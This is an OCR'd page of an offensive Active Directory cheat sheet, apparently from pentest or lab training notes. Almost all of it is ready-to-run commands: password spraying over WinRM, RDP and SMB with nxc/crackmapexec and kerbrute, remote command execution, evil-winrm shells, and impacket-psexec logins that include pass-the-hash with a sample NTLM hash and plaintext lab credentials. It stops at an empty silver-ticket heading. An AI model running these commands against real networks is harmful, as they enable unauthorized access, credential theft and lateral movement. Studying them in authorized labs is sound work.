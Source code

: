 ```
nxc winrm 10.10.117.152-154 -u usernames -p passwords --local-auth
```
```
nxc rdp 10.10.117.152-154 -u usernames -p passwords --local-auth
```
```
crackmapexec winrm 10.10.117.152-154 -u usernames -p passwords --local-auth
```
```
crackmapexec rdp 10.10.117.152-154 -u usernames -p passwords --local-auth
```
#### CME
```
crackmapexec winrm 10.10.117.152-154 -u usernames -p passwords  
```
```
crackmapexec smb 10.10.117.152-154 -u usernames -p passwords  
```
```
crackmapexec rdp 10.10.117.152-154 -u usernames -p passwords  
```
### CMD EXEC USING CME/NXC
cmd to run cmds on a windows ad host using cme
```
crackmapexec winrm 192.168.173.21 -u 'Christopher.Lewis' -p 'P@ssword2022' -x 'whoami'
```
```
nxc winrm 192.168.173.21 -u 'Christopher.Lewis' -p 'P@ssword2022' -x 'whoami'
```

#### Filtering Logon Failures
```
nxc winrm 10.10.117.152-154 -u usernames -p passwords | grep +
```
### Using kerbrute

```
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  <PASS>
```

## WINRM CONNECTION
```
evil-winrm -i 192.168.173.21 -u 'Christopher.Lewis' -p 'P@ssword2022'
```

## PSEXEC CONNECTION

- PWD
```
impacket-psexec Administrator@10.10.117.154  
```
- HASHES
```
impacket-psexec tom_admin@10.10.83.146 -hashes :4979d69d4ca66955c075c41cf45f24dc
```
### SILVER TICKET USING LINUX IMPACKET
